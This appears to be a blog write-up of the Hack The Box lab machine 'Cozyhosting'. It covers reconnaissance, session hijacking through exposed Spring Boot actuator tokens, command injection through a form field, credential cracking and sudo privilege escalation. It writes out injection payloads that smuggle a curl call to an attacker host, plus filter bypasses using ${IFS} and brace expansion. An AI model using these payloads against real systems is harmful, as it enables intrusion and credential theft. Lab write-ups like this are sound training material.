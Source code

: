 ## Cozyhosting(HTB)

This was an easy machine on HackThe Box, it involved exploting a session hijacking from leaked sessions then finding the postgres database creds and decrypting the password hash in the database to get acess to the "josh" user. Privilege Escalation was as simple as a gtfo bin. 
![Untitled](/assets/images/cozyhosting/0.png)

## NMAP

```json
# Nmap 7.94 scan initiated Mon Sep  4 01:16:04 2023 as: nmap -sC -sV -oA nmap/cozyhosting 10.10.11.230
Nmap scan report for 10.10.11.230
Host is up (0.057s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     nginx 1.18.0 (Ubuntu)
5555/tcp open  freeciv?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  4 01:18:34 2023 -- 1 IP address (1 host up) scanned in 149.32 seconds
```

## RECON

We see that 3 ports are opened (22,80 and 5555). Let’s first visit port 80 (HTTP), the banner from NMAP tells us it is an `nginx` server running on `Ubuntu`. Going to [http://10.10.11.230](http://10.10.11.230) we see 

![Untitled](/assets/images/cozyhosting/1.png)

This website seems to be some sort of Hosting Provider. Hovering over all the buttons tells us that only `Login` actually leads somewhere. Either way let’s run a directory bruteforce to look for paths on this website.

### Directory Brute force

![Untitled](/assets/images/cozyhosting/2.png)

Looking at the results we see a few interesting endpoints. `/admin` leads to a 401 and `/error` leads to a 500. Let’s navigate to `/error` to checkout the error page and see if it will reveal the framework that is being used. 

![Untitled](/assets/images/cozyhosting/3.png)

`“Whitelabel Error Page”`  From doing Bug Bounty, I’ve actually seen this error page before and immediately identified that this is an error page for the Spring Boot JAVA framework. A quick google search will also show us that this is a Spring Boot error page.

![Untitled](/assets/images/cozyhosting/4.png)

Now that we know that it is running Spring Boot we can try and brute force the `/actuator` endpoints for Spring Boot.  TLDR of the `/actuator` endpoint is that it is a debugging endpoint for developers.

![Untitled](/assets/images/cozyhosting/5.png)

> Source: [https://www.baeldung.com/spring-boot-actuators](https://www.baeldung.com/spring-boot-actuators)
> 

![Untitled](/assets/images/cozyhosting/6.png)

We see that we get a bunch of hits from our directory brute force. Going to `/actuator/sessions` reveals the session tokens for all the users of the website.

![Untitled](/assets/images/cozyhosting/7.png)

With this information, we can perform a “Session Hijacking” Attack  and login as the user “kanderson”

![Untitled](/assets/images/cozyhosting/8.png)

We can change our cookie to the victim’s cookie. Now let’s try accessing the `/admin` endpoint again.

![Untitled](/assets/images/cozyhosting/9.png)

We see that we now have access to the Admin Dashboard.

## Foothold

Looking at the Admin Dashboard, we find a functionality that seems to be executing a shell command.

![Untitled](/assets/images/cozyhosting/10.png)

Let’s open up Burp and look at the request that is made when we use this functionality .

![Untitled](/assets/images/cozyhosting/11.png)

We can see that a POST request gets sent to the endpoint `/executessh` and it takes two parameters host and username. From here I was pretty confiden that a shell command was being executed in the backend. The command would probably look something like

![Untitled](/assets/images/cozyhosting/12.png)

Our user input is being inserted into a shell command. If we could escape out of the ssh command and sneak in our own command we will be able to achieve command injection. Let’s try changing our POST request data to

```bash
host=127.0.0.1&username=;curl 10.10.16.10:8000;
```

When this request gets sent. We should expect the backend shell command to be transformed to

![Untitled](/assets/images/cozyhosting/13.png)

Let’s set up a python http server on port 8000 to see if we sucessfully injected the curl command on the server.

![Untitled](/assets/images/cozyhosting/14.png)

However, when we send the request we see that whitespaces are not allowed! But we can bypass this in multiple ways. First, we could use ${IFS}.

![Untitled](/assets/images/cozyhosting/15.png)

Second way is using something called “brace expansion”. I actually learned about this technique from ippsec’s video on this box. Be sure to check out ippsec’s video on this box he covers the box much better than I do.

[https://www.youtube.com/watch?v=okTl6kWrncg](https://www.youtube.com/watch?v=okTl6kWrncg)

Brace Expansion

![Untitled](/assets/images/cozyhosting/16.png)

Brace Expansion will turn this command into 

```bash
ssh 127.0.0.1@;curl 10.10.16.10:8000;
```

> Official GNU documentation of Brace Expansion:[https://www.gnu.org/software/bash/manual/html_node/Brace-Expansion.html](https://www.gnu.org/software/bash/manual/html_node/Brace-Expansion.html)
> 

Now we can create a reverse shell on the box.

![Untitled](/assets/images/cozyhosting/17.png)

## USER

we see that we are the app user on the box. If we run `ls` we can see the jar file of the web app. Let’s move it onto our machine and extract it. After, extracting it we see two files.

![Untitled](/assets/images/cozyhosting/18.png)

Navigating to the BOOT-INF file which usually contains properties about the Spring Boot application. We see an [`application.properties`](http://application.properties) file which contains the postgres database password.

![Untitled](/assets/images/cozyhosting/19.png)

Let’s check if postgres is running on the box. We run `ss -ltop`

![Untitled](/assets/images/cozyhosting/20.png)

We see that postgresql is indeed running. Let’s try logging into postgres with the password.

![Untitled](/assets/images/cozyhosting/21.png)

We get logged into the postgres database and we can see 4 databases. We are interested in the cozyhosting database. So let’s have a look at the contents of the database.

![Untitled](/assets/images/cozyhosting/22.png)

We find the password hash of the admin and kanderson user. Let’s try to crack these password on our machine using hashcat. Judging from the `$2a$` we can guess that this is a bcrypt hash, so let’s try cracking this hash with mode 3200(bcrypt).

![Untitled](/assets/images/cozyhosting/23.png)

We get the password of the admin user `manchesterunited` . Let’s try logging into the josh user.

![Untitled](/assets/images/cozyhosting/24.png)

![Untitled](/assets/images/cozyhosting/25.png)

## Root

We get logged into the josh user. Now let’s run `sudo -l` to see if we have any easy win on privilege escalation.

![Untitled](/assets/images/cozyhosting/26.png)

We see that we can run `/usr/bin/ssh *` as the root user. Indicating that we can run any ssh  command we want as root. Let’s go to gtfobin to look for a payload

![Untitled](/assets/images/cozyhosting/27.png)

> Source: [https://gtfobins.github.io/gtfobins/ssh/](https://gtfobins.github.io/gtfobins/ssh/)
> 

We run the command and we get a shell as root.

![Untitled](/assets/images/cozyhosting/28.png)
